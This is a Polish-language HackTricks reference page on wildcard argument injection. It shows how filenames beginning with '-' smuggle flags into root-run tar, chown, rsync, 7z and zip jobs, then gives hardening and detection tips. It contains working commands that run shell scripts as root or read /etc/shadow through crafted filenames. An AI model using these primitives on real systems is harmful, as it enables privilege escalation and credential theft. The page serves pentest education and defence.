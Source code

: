# Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wstrzykiwanie **argumentów** z użyciem wildcardów (znane również jako *glob*) ma miejsce, gdy skrypt z uprawnieniami uruchamia binarny plik Unix, taki jak `tar`, `chown`, `rsync`, `zip`, `7z`, … z niecytowanym wildcardem, takim jak `*`.
> Ponieważ powłoka rozwija wildcard **przed** wykonaniem binarnego pliku, atakujący, który może tworzyć pliki w katalogu roboczym, może stworzyć nazwy plików, które zaczynają się od `-`, aby były interpretowane jako **opcje zamiast danych**, skutecznie przemycając dowolne flagi lub nawet polecenia.
> Ta strona zbiera najbardziej przydatne prymitywy, najnowsze badania i nowoczesne wykrycia na lata 2023-2025.

## chown / chmod

Możesz **skopiować właściciela/grupę lub bity uprawnień dowolnego pliku** poprzez nadużycie flagi `--reference`:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Kiedy root później wykonuje coś takiego:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` jest wstrzykiwane, co powoduje, że *wszystkie* pasujące pliki dziedziczą własność/uprawnienia z `/root/secret``file`.

*PoC & narzędzie*: [`wildpwn`](https://github.com/localh0t/wildpwn) (połączony atak).
Zobacz także klasyczny dokument DefenseCode dla szczegółów.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Wykonaj dowolne polecenia, nadużywając funkcji **checkpoint**:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Gdy root uruchamia np. `tar -czf /root/backup.tgz *`, `shell.sh` jest wykonywany jako root.

### bsdtar / macOS 14+

Domyślny `tar` w najnowszym macOS (opartym na `libarchive`) *nie* implementuje `--checkpoint`, ale nadal możesz osiągnąć wykonanie kodu za pomocą flagi **--use-compress-program**, która pozwala na określenie zewnętrznego kompresora.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Kiedy skrypt z uprawnieniami uruchamia `tar -cf backup.tar *`, `/bin/sh` zostanie uruchomiony.

---

## rsync

`rsync` pozwala na nadpisanie zdalnego powłoki lub nawet zdalnego binarnego za pomocą flag wiersza poleceń, które zaczynają się od `-e` lub `--rsync-path`:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
Jeśli root później archiwizuje katalog za pomocą `rsync -az * backup:/srv/`, wstrzyknięta flaga uruchamia twoją powłokę po stronie zdalnej.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (tryb `rsync`).

---

## 7-Zip / 7z / 7za

Nawet gdy skrypt z uprawnieniami *defensywnie* poprzedza wildcard `--` (aby zatrzymać analizę opcji), format 7-Zip obsługuje **pliki listy plików** poprzez poprzedzenie nazwy pliku `@`. Łączenie tego z dowiązaniem symbolicznym pozwala na *ekstrakcję dowolnych plików*:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
Jeśli root wykonuje coś takiego:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip spróbuje odczytać `root.txt` (→ `/etc/shadow`) jako listę plików i zakończy działanie, **drukując zawartość na stderr**.

---

## zip

`zip` obsługuje flagę `--unzip-command`, która jest przekazywana *dosłownie* do powłoki systemowej, gdy archiwum będzie testowane:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Injectuj flagę za pomocą spreparowanej nazwy pliku i czekaj, aż skrypt kopii zapasowej z uprawnieniami wywoła `zip -T` (test archiwum) na wynikowym pliku.

---

## Dodatkowe binaria podatne na wstrzykiwanie dzikich kart (szybka lista 2023-2025)

Następujące polecenia były nadużywane w nowoczesnych CTF i rzeczywistych środowiskach. Payload jest zawsze tworzony jako *nazwa pliku* w zapisywalnym katalogu, który później będzie przetwarzany za pomocą dzikiej karty:

| Binary | Flag do nadużycia | Efekt |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → dowolny `@file` | Odczyt zawartości pliku |
| `flock` | `-c <cmd>` | Wykonaj polecenie |
| `git`   | `-c core.sshCommand=<cmd>` | Wykonanie polecenia przez git przez SSH |
| `scp`   | `-S <cmd>` | Uruchom dowolny program zamiast ssh |

Te prymitywy są mniej powszechne niż klasyki *tar/rsync/zip*, ale warto je sprawdzić podczas polowania.

---

## Wykrywanie i wzmacnianie

1. **Wyłącz globbing powłoki** w krytycznych skryptach: `set -f` (`set -o noglob`) zapobiega rozszerzaniu dzikich kart.
2. **Cytuj lub escape'uj** argumenty: `tar -czf "$dst" -- *` *nie* jest bezpieczne — preferuj `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Jawne ścieżki**: Użyj `/var/www/html/*.log` zamiast `*`, aby atakujący nie mogli tworzyć plików rodzeństwa, które zaczynają się od `-`.
4. **Najmniejsze uprawnienia**: Uruchamiaj zadania kopii zapasowej/konserwacji jako konto usługi bez uprawnień zamiast root, gdy to możliwe.
5. **Monitorowanie**: Wstępnie zbudowana reguła Elastic *Potencjalna powłoka przez wstrzykiwanie dzikich kart* szuka `tar --checkpoint=*`, `rsync -e*` lub `zip --unzip-command` natychmiast po procesie potomnym powłoki. Zapytanie EQL można dostosować do innych EDR.

---

## Odniesienia

* Elastic Security – Wykryta reguła Potencjalna powłoka przez wstrzykiwanie dzikich kart (ostatnia aktualizacja 2025)
* Rutger Flohil – “macOS — Wstrzykiwanie dzikich kart tar” (18 grudnia 2024)

{{#include ../../banners/hacktricks-training.md}}
